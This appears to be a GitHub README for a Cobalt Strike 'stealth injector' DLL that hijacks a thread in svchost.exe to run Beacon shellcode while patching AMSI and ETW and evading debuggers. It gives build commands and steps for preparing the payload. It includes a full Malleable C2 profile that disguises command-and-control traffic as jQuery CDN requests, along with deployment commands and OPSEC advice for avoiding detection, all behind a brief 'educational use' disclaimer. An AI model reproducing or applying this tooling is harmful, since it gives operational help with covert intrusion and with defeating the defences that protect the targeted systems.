 # Cobalt Strike Stealth Injector

This repository provides a custom Cobalt Strike artifact designed for educational purposes, showcasing advanced stealth techniques for payload delivery in 2025. Implemented as a reflective DLL, it injects Beacon shellcode into a target process (e.g., `svchost.exe`) using Thread Hijacking, with features like AES-256 encryption, polymorphic shellcode, dynamic key generation, and string obfuscation. The artifact integrates with Malleable C2 profiles, inspired by threatexpress/malleable-c2, to mimic legitimate network traffic, such as jQuery requests.

## Features

- **Thread Hijacking**: Injects shellcode into an existing thread for minimal detection footprint.
- **AES-256 Encryption**: Secures shellcode with keys derived from system time and Malleable C2 parameters.
- **Polymorphic Shellcode**: Applies runtime bit-shifting and XOR transformations to evade signatures.
- **String Obfuscation**: Encrypts critical strings (e.g., process/library names) with dynamic keys.
- **AMSI and ETW Bypass**: Patches Antimalware Scan Interface and Event Tracing for Windows to prevent scanning and logging.
- **Anti-Debugging**: Detects debuggers and sandboxes via timing and environmental checks.
- **Malleable C2 Integration**: Supports dynamic process selection and key configuration via profiles like `jquery-c2.4.9.profile`.
- **Reflective DLL Loading**: Enables file-less execution for enhanced stealth.

## Requirements

- **Cobalt Strike**: Version 4.9 or later with a valid license.
- **SysWhispers3**: Library for dynamic system calls.
- **Compiler**: Visual Studio (with MASM) or MinGW-w64 (`x86_64-w64-mingw32-gcc`).
- **Windows**: x64 environment (Windows 10/11, tested up to 24H2).
- **Dependencies**: `bcrypt` for AES encryption (included in Windows).

## Setup

1. **Clone the Repository**:

   ```bash
   git clone https://github.com/yourusername/cobalt-strike-stealth-injector.git
   cd cobalt-strike-stealth-injector
   ```
2. **Install SysWhispers3**:
   - Generate syscall stubs:

     ```bash
     python syswhispers.py -f NtOpenProcess,NtAllocateVirtualMemory,NtWriteVirtualMemory,NtClose,NtOpenThread,NtSuspendThread,NtGetContextThread,NtSetContextThread,NtResumeThread -o syswhispers3
     ```
   - Include `syswhispers3.h` and `syswhispers3.c` in the project directory.
3. **Generate Beacon Shellcode**:
   - In Cobalt Strike, navigate to *Attacks &gt; Packages &gt; Payload Generator*.
   - Select *Windows DLL (x64)*, apply your Malleable C2 profile, and save the output as `beacon.bin`.
   - Convert to a C array:

     ```bash
     xxd -i beacon.bin > beacon.h
     ```
   - Replace the `payload` array in `beacon_injector.c` with the generated array.
4. **Configure Malleable C2**:
   - Create a profile inspired by `jquery-c2.4.9.profile` from threatexpress/malleable-c2:

     ```plaintext
     set data_transform "prepend {base_key=0102030405060708090A0B0C0D0E0F101112131415161718191A1B1C1D1E1F20};";
     set process-inject "svchost.exe";
     set host_stage "false";
     set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0";
     http-get {
       set uri "/jquery-3.3.1.slim.min.js";
       client {
         header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
         header "Host" "code.jquery.com";
         header "Referer" "http://code.jquery.com/";
         header "Accept-Encoding" "gzip, deflate";
       }
       server {
         output {
           prepend "data=";
           print;
         }
       }
     }
     http-post {
       set uri "/submit";
       client {
         id {
           parameter "session";
         }
         output {
           print;
         }
       }
     }
     process-inject {
       set allocator "VirtualAllocEx";
       set min_alloc "4096";
       set startrwx "false";
       set userwx "false";
     }
     transform-x64 {
       prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90";
       strrep "ReflectiveLoader" "execute";
       strrep "beacon.x64.dll" "";
       stringw "jQuery";
     }
     post-ex {
       set cleanup "true";
     }
     ```
   - Load the profile in Cobalt Strike:

     ```bash
     ./teamserver [external IP] [password] [/path/to/profile]
     ```
   - Validate with:

     ```bash
     ./c2lint /path/to/profile
     ```

## Compilation

- **Visual Studio**:

  ```bash
  cl /c beacon_injector.c syswhispers3.c
  link /DLL beacon_injector.obj syswhispers3.obj /out:beacon_injector.dll
  ```
- **MinGW-w64**:

  ```bash
  x86_64-w64-mingw32-gcc beacon_injector.c syswhispers3.c -o beacon_injector.dll -shared -lbcrypt
  ```

## Usage

1. **Deploy the Artifact**:
   - **Reflective Loading**: Use Cobalt Strike's reflective DLL injection to load `beacon_injector.dll` into a target process:

     ```plaintext
     dllinject [pid] beacon_injector.dll
     ```
   - **Classic Loading**: Inject the DLL using `LoadLibrary` via an exploit or script. Optionally pass a target process name (e.g., `explorer.exe`) through the loader.
2. **Execution**:
   - The DLL locates the target process (default: `svchost.exe`), decrypts the shellcode, applies polymorphism, patches AMSI/ETW, and performs Thread Hijacking to execute the payload.
   - Beacon connects to the C2 server, mimicking jQuery traffic as defined in the Malleable C2 profile.
3. **Testing**:
   - Test in a controlled environment (e.g., Windows 11 24H2 VM) without EDR.
   - Monitor injection with Process Explorer or Procmon.
   - Verify network traffic with Wireshark to ensure it aligns with the jQuery-like profile.
4. **OPSEC Considerations**:
   - Disable staging (`set host_stage "false";`) to minimize detection risks.
   - Use a trusted SSL certificate or a self-signed certificate mimicking a legitimate domain (e.g., `code.jquery.com`).
   - Adjust `sleeptime` and `jitter` to blend with target network traffic.
   - Ensure `process-inject` settings use RW/RX memory to avoid RWX flags, which are suspicious.

## Ethical Use

This project is for educational purposes and authorized security testing only. Unauthorized use may violate laws and regulations. Always obtain explicit permission before deploying in any environment.

## Contributing

Submit issues or pull requests for enhancements, such as additional stealth techniques, support for other injection methods, or optimizations.

## License

This project is licensed under the MIT License. See the `LICENSE` file for details.

## Acknowledgments

- Inspired by threatexpress/malleable-c2 for Malleable C2 profile guidance and jQuery traffic emulation.
- Thanks to the Cobalt Strike community for advancing stealth and OPSEC techniques.
